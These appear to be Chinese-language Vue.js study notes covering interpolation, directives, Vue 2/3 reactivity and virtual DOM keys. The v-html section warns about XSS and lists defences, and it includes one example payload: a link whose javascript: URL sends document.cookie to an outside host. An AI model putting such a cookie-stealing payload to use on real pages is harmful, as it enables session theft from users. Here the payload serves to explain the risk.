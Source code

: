 # Vue学习笔记

## 1.模板语法

###   (1)插值

- ​      a.文本{{}}

- ​      b.纯HTML({{}}默认不会解析,怕标签内容是用户借助前端的输入框生产出来的，再从数据库中提出来可能出现渲染错误内容，绝对不要对用户提供的内容使用V-HTML，要后端的信任内容发过来才能用)

​          v-html,要防止XSS,CSRF(

​              前端过滤

​              后台转义（<>:&lt;&gt;）

​              给cookie加上属性http

​          )

​          <a href=javascript:location.href='http://baidu.com?cookie=' +document.cookie>click</a>

- ​      c.表达式

###   (2)指令：带有v-前缀的特殊属性，()里为缩写

1. ​      v-bind:(:)  动态绑定属性
2. ​      v-if/v-else-if/v-else 动态创建/删除
3. ​      v-show      动态显示/隐藏
4. ​      v-on:click(@) 事件绑定
5. ​      v-for       遍历（里面用in或者of都可，没区别）
6. ​      v-model     双向绑定表单
7. ​      v-slot(#)   插槽标签

## 2.vue2在初始定义之后添加的状态不会被拦截的解决方案：

​      【对象】：Vue.set(对象，属性，值)
​      【数组】：Vue2将数组的方法(splice,shift,pop,push等等)重写了，除了原有的功能外还增加了拦截

## 3.vue3支持动态增加属性的拦截-proxy

​      如果Vue3中使用new Vue，报错：Vue is not a constructor
​      因为Vue2是面向对象，有this，
​      Vue3中改变得写法有两个，其他几乎都没有改变
​      【1】Vue3用Vue.createApp().mount('#box')
​      【2】Vue3中数据对象改成了用data()函数return一个对象
​      【vue3支持动态增加属性的拦截】原理proxy

## 4.虚拟dom  

​	key：跟踪每个结点的身份，从而重用和重新排序现有元素
